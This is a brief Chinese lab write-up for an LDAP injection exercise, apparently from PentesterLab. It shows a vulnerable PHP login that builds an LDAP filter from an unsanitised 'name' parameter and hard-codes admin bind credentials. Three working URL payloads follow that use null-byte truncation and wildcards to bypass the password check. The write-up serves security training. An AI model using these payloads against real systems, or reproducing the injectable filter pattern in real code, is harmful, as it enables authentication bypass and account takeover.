

# LDAP2漏洞

进入example2.php

源码

```php
<?php
  require "../header.php" ;
  $ld = ldap_connect("localhost") or die("Could not connect to LDAP server");
  ldap_set_option($ld, LDAP_OPT_PROTOCOL_VERSION, 3);
  ldap_set_option($ld, LDAP_OPT_REFERRALS, 0);
  if ($ld) {
   $lb = @ldap_bind($ld, "cn=admin,dc=pentesterlab,dc=com", "pentesterlab");
    if ($lb) {
      $pass = "{MD5}".base64_encode(pack("H*",md5($_GET['password'])));
      $filter = "(&(cn=".$_GET['name'].")(userPassword=".$pass."))";
      if (!($search=@ldap_search($ld, "ou=people,dc=pentesterlab,dc=com", $filter))) {
      echo("Unable to search ldap server<br>");
      echo("msg:'".ldap_error($ld)."'</br>");
    } else {
      $number_returned = ldap_count_entries($ld,$search);
      $info = ldap_get_entries($ld, $search);
      if ($info["count"] < 1) {
         //NOK
         echo "UNAUTHENTICATED";
      }
      else {
        echo "AUTHENTICATED as";
        echo(" ".htmlentities($info[0]['uid'][0]));
      }
    }
   }
  }
  require "../footer.php" ;
?>
```

payload

```payload
/ldap/example2.php?name=hacker))%00&password=233
/ldap/example2.php?name=admin))%00&password=233
/ldap/example2.php?name=hacker)(cn=*))%00&password=233
```

